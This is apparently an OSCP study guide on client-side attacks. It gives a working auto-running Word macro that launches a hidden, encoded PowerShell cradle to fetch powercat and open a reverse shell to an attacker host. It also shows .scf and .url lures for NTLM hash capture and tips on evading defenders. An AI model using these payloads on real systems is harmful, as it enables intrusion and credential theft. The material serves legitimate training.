


## Introduction & Learning Objectives

Client-side attacks target the user, their applications, or their local environment rather than directly exploiting server-side vulnerabilities. In OSCP labs and real-world authorized engagements, client-side techniques are often required when network perimeter defenses are strong, but user interaction can be leveraged.

This Learning Unit covers the following Learning Objectives:
- Gather information to prepare client-side attacks
- Leverage client fingerprinting to obtain information
- Understand variations of Microsoft Office client-side attacks
- Install Microsoft Office (lab context)
- Leverage Microsoft Word Macros for code execution
- Abuse Windows Library Files for authentication harvesting

> {: .prompt-warning }
> **Educational Purpose Only:** All techniques described are for authorized penetration testing, OSCP lab practice, and defensive research. Unauthorized use against systems you do not own or have explicit written permission to test is illegal and unethical.

---

## 1. Target Reconnaissance & Client Fingerprinting

Before launching client-side attacks, attackers gather intelligence to maximize success rates and avoid detection. Phishing campaigns are rarely just about credential theft; they are structured reconnaissance operations that map internal infrastructure, identify software versions, and profile user behavior.

### Reconnaissance-to-Exploitation Pipeline



### Client Fingerprinting Techniques

| Technique | Data Collected | OSCP Lab Application |
|-----------|----------------|----------------------|
| **Tracking Pixels** | IP, User-Agent, OS, Browser, Language | Identify Windows version, browser engine, proxy usage |
| **Email Headers** | Mail client (Outlook/Thunderbird), routing hops | Determine if users use webmail vs desktop client |
| **Document Properties** | Office version, macro security settings, template paths | Choose between VBA, DDE, or template injection |
| **JavaScript Fingerprinting** | Screen resolution, installed plugins, timezone | Correlate with corporate device baselines |
| **SMB/NetBIOS Probes** | Hostname, domain, workgroup, OS build | Map internal network topology from beacon callbacks |

### Step-by-Step: Setting Up Recon Tracking

**1. Deploy Lightweight Tracking Server (Linux)**
```bash
sudo apt install python3-flask -y
cat > tracker.py << 'EOF'
from flask import Flask, request
import datetime, json

app = Flask(__name__)

@app.route('/track', methods=['GET'])
def track():
    data = {
        "timestamp": datetime.datetime.now().isoformat(),
        "ip": request.remote_addr,
        "user_agent": request.headers.get('User-Agent'),
        "referer": request.headers.get('Referer'),
        "accept_language": request.headers.get('Accept-Language')
    }
    with open("recon_log.jsonl", "a") as f:
        f.write(json.dumps(data) + "\n")
    # 1x1 transparent GIF
    return b'\x47\x49\x46\x38\x39\x61\x01\x00\x01\x00\x80\x00\x00\xff\xff\xff\x00\x00\x00\x21\xf9\x04\x01\x00\x00\x00\x00\x2c\x00\x00\x00\x00\x01\x00\x01\x00\x00\x02\x02\x44\x01\x00\x3b', 200, {'Content-Type': 'image/gif'}

if __name__ == '__main__':
    app.run(host='0.0.0.0', port=80)
EOF
python3 tracker.py
```
**Output:**
```text
 * Serving Flask app 'tracker'
 * Running on all addresses (0.0.0.0)
 * Running on http://192.168.119.2:80
Press CTRL+C to quit
```

**2. Analyze Collected Recon Data**
```bash
cat recon_log.jsonl | python3 -m json.tool
```
**Output:**
```json
{
    "timestamp": "2024-02-20T14:22:10.123456",
    "ip": "10.10.50.196",
    "user_agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.0.0 Safari/537.36",
    "referer": null,
    "accept_language": "en-US,en;q=0.9"
}
```

**Recon Insights Extracted:**
- Internal IP range: `10.10.50.0/24`
- OS: Windows 10/11 (`Windows NT 10.0`)
- Browser: Chrome 120 (Chromium engine)
- Security posture: No proxy headers → direct internet access likely
- Next step: Target Office macros (high success rate in enterprise labs)

---

## 2. Exploiting Microsoft Office

Microsoft Office remains a primary client-side attack vector due to its ubiquity, complex feature set, and legacy compatibility requirements. In OSCP labs, VBA macros are the most reliable initial access method when macro execution is permitted.

### Office Macro Execution Flow


### Step-by-Step: VBA Macro Execution

**1. Create Macro-Enabled Document**
- Open Microsoft Word → `Developer` Tab → `Visual Basic`
- Insert a new module

**2. Basic Macro Structure (Listing 2)**
```text
Sub MyMacro()
'
' MyMacro Macro
'
'
End Sub
```

**3. Leverage ActiveX Objects for OS Command Execution**
ActiveX Objects provide access to underlying operating system commands via Windows Script Host Shell (`WScript.Shell`).

```text
Sub MyMacro()
  CreateObject("Wscript.Shell").Run "powershell"
End Sub
```
*(Listing 3 - Macro opening powershell.exe)*

**4. Auto-Execute on Document Open**
Office macros are not executed automatically by default. We must use the predefined `AutoOpen` macro and `Document_Open` event to trigger execution when the document is opened.

```text
Sub AutoOpen()
  MyMacro
End Sub

Sub Document_Open()
  MyMacro
End Sub

Sub MyMacro()
  CreateObject("Wscript.Shell").Run "powershell"
End Sub
```
*(Listing 4 - Macro automatically executing powershell.exe after opening the Document)*

**5. Save & Test**
- Click `Save` in the VBA editor → Close document
- Re-open → Security warning appears: *"Macros have been disabled"*
- Click `Enable Content` → PowerShell window launches

> **Note:** In a real-world assessment, the victim must click `Enable Content`. In enterprise environments, macros are commonly allowed for business workflows, making this a viable initial access vector in OSCP labs.

---

### Step-by-Step: Reverse Shell via PowerCat & Base64 Encoding

To escalate from a local PowerShell window to a reverse shell, we'll use a base64-encoded PowerShell download cradle to fetch PowerCat and establish a callback.

**VBA String Limitation:** VBA has a 255-character limit for literal strings. We must split the base64 command into chunks and concatenate them.

**1. Prepare PowerShell Download Cradle (Listing 6)**
```powershell
IEX(New-Object System.Net.WebClient).DownloadString('http://192.168.119.2/powercat.ps1');powercat -c 192.168.119.2 -p 4444 -e powershell
```

**2. Base64 Encode (Kali Linux)**
```bash
echo -n "powershell.exe -nop -w hidden -e SQBFAFgAKABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFcAZQBiAEMAbABpAGUAbgB0ACkALgBEAG8AdwBuAGwAbwBhAGQAUwB0AHIAaQBuAGcAKAAnAGgAdAB0AHAAOgAvAC8AMQA5ADIALgAxADYAOAAuADEAMQA5AC4AMgAvAHAAbwB3AGUAcgBjAGEAdAAuAHAAcwAxACcAKQA7AHAAbwB3AGUAcgBjAGEAdAAgAC0AYwAgADEAOQAyAC4AMQA2ADgALgAxADEAOQAuADIAIAAtAHAAIAA0ADQANAA0ACAALQBlACAAcABvAHcAZQByAHMAaABlAGwAbAA=" | base64 -w 0
```
*(Note: The actual encoded string is generated dynamically. Use the Python chunker below to format it correctly for VBA.)*

**3. Python Chunker Script (Listing 7)**
```python
str = "powershell.exe -nop -w hidden -e SQBFAFgAKABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFcAZQBiAEMAbABpAGUAbgB0ACkALgBEAG8AdwBuAGwAbwBhAGQAUwB0AHIAaQBuAGcAKAAnAGgAdAB0AHAAOgAvAC8AMQA5ADIALgAxADYAOAAuADEAMQA5AC4AMgAvAHAAbwB3AGUAcgBjAGEAdAAuAHAAcwAxACcAKQA7AHAAbwB3AGUAcgBjAGEAdAAgAC0AYwAgADEAOQAyAC4AMQA2ADgALgAxADEAOQAuADIAIAAtAHAAIAA0ADQANAA0ACAALQBlACAAcABvAHcAZQByAHMAaABlAGwAbAA="

n = 50

for i in range(0, len(str), n):
    print("    Str = Str + \"" + str[i:i+n] + "\"")
```

**4. Final VBA Macro (Listing 8)**
```text
Sub AutoOpen()
    MyMacro
End Sub

Sub Document_Open()
    MyMacro
End Sub

Sub MyMacro()
    Dim Str As String
    
    Str = Str + "powershell.exe -nop -w hidden -enc SQBFAFgAKABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAd"
    Str = Str + "AAuAFcAZQBiAEMAbABpAGUAbgB0ACkALgBEAG8AdwBuAGwAbwBhAGQAUwB0AHIAaQBuAGcAKAAnAGgAdAB0AHAAOgAvAC8AMQA5ADIALgAxADYAOAAuADEAMQA5AC4AMgAvAHAAbwB3AGUAcgBjAGEAdAAuAHAAcwAxACcAKQA7AHAAbwB3AGUAcgBjAGEAdAAgAC0AYwAgADEAOQAyAC4AMQA2ADgALgAxADEAOQAuADIAIAAtAHAAIAA0ADQANAA0ACAALQBlACAAcABvAHcAZQByAHMAaABlAGwAbAA="

    CreateObject("Wscript.Shell").Run Str
End Sub
```

**5. Lab Execution Steps**
```bash
# Terminal 1: Host PowerCat script
cd /opt/powercat
python3 -m http.server 80

# Terminal 2: Start Netcat listener
nc -nvlp 4444
```
**Output (Netcat Listener):**
```text
listening on [any] 4444 ...
connect to [192.168.119.2] from (UNKNOWN) [192.168.50.196] 49768
Windows PowerShell
Copyright (C) Microsoft Corporation. All rights reserved.

Install the latest PowerShell for new features and improvements! https://aka.ms/PSWindows

PS C:\Users\offsec\Documents> whoami
offsec-pc\offsec
PS C:\Users\offsec\Documents> ipconfig | findstr IPv4
   IPv4 Address. . . . . . . . . . . : 192.168.50.196
```

> {: .prompt-tip }
> **OSCP Lab Note:** The macro security warning only appears once per document name. If you rename the `.docm` file, the warning reappears. In exams, always verify macro execution is enabled in `Trust Center Settings` if the lab environment allows it.

---

## 3. Abusing Windows Library Files

Windows library files (`.scf`, `.url`, `.library-ms`, `.searchConnector-ms`) are XML or INI-based configuration files that Windows Explorer parses automatically. They can be weaponized to trigger authentication requests, harvest NTLM hashes, or execute commands without user interaction beyond folder browsing.

### Library File Abuse Flow



### Step-by-Step: `.scf` File for NTLM Capture

**1. Create Malicious `.scf` File**
```text
[Shell]
Command=2
IconFile=\\192.168.119.2\share\test.ico
[Taskbar]
Command=ToggleDesktop
```

**2. Start Responder (Linux)**
```bash
sudo responder -I eth0 -dwv
```
**Output:**
```text
[+] Listening for events...
[SMB]   NTLMv2-SSP Client   : 192.168.50.196
[SMB]   NTLMv2-SSP Username : OFFSEC-PC\offsec
[SMB]   NTLMv2-SSP Hash     : offsec::OFFSEC-PC:1122334455667788:99AABBCCDDEEFF00:0101000000000000...
```

**3. Deliver & Trigger**
- Place `.scf` file in shared folder or email attachment
- User opens folder → Windows attempts to load icon from `\\192.168.119.2\share\test.ico`
- NTLM hash captured by Responder

### Step-by-Step: `.url` File for WebDAV/SMB Trigger

**1. Create Malicious `.url` File**
```text
[InternetShortcut]
URL=file://\\192.168.119.2\share\
IconFile=\\192.168.119.2\share\icon.ico
```

**2. Start SMB Server (Impacket)**
```bash
impacket-smbserver share /tmp/smb_share -smb2support
```
**Output:**
```text
[*] Config file parsed
[*] SMB2 Negotiate Protocol Request received
[*] AUTHENTICATE_MESSAGE (OFFSEC-PC\offsec,OFFSEC-PC)
[*] User OFFSEC-PC\offsec authenticated successfully
```

**3. Trigger**
- User double-clicks `.url` file or folder refreshes
- Windows resolves `IconFile` → SMB authentication attempt
- Hash captured or session established

> {: .prompt-tip }
> **OPSEC Note:** Library file abuse relies on Windows Explorer behavior. Modern EDRs flag suspicious `.scf`/`.url` files in user directories. Use only in authorized labs. Always clear artifacts after testing.

---

## Detection & OPSEC Considerations

| Technique | Defender Detection | Attacker OPSEC Adaptation |
|-----------|-------------------|---------------------------|
| Phishing Recon | Email gateway filters, proxy logs, EDR process monitoring | Use legitimate domains, rotate tracking endpoints, limit beacon frequency |
| Office Macros | AMSI, macro blocking, Protected View, AppLocker | Use DDE/template injection, obfuscate payloads, leverage signed binaries |
| Library Files | Windows Event ID 4624/4625, SMB audit logs, EDR file monitoring | Use WebDAV over HTTPS, limit trigger frequency, clean up files post-execution |

### Critical OPSEC Checklist
- [ ] Verify lab scope & rules of engagement
- [ ] Use isolated networks for testing
- [ ] Avoid production credentials or real user data
- [ ] Log all actions for reporting & reproducibility
- [ ] Clean up artifacts (files, servers, logs) after testing
- [ ] Document detection triggers for defensive handoff

---

## References

- [Microsoft — Office Security Features](https://learn.microsoft.com/en-us/microsoft-365/security/office-365-security/)
- [Microsoft — Windows Library Files Documentation](https://learn.microsoft.com/en-us/windows/win32/shell/library-files)
- [OffSec — OSCP Exam Guide (Client-Side Section)](https://www.offsec.com/courses/pen-200/)
- [HackTricks — Client-Side Attacks](https://book.hacktricks.xyz)
- [PayloadsAllTheThings — Office & Phishing](https://github.com/swisskyrepo/PayloadsAllTheThings)
- [Responder — NTLM Capture Tool](https://github.com/lgandx/Responder)
- [Impacket — SMB/NTLM Utilities](https://github.com/fortra/impacket)
- [PowerCat — PowerShell TCP/IP Swiss Army Knife](https://github.com/besimorhino/powercat)
- [MITRE ATT&CK — Client-Side Execution](https://attack.mitre.org/tactics/TA0001/)

---


> {: .prompt-warning }
> **Legal & Ethical Notice:** All techniques described are for educational purposes, authorized penetration testing, and OSCP lab practice. Unauthorized use against systems you do not own or have explicit written permission to test violates computer fraud laws globally. Always operate within scope, maintain audit trails, and prioritize defensive knowledge transfer.
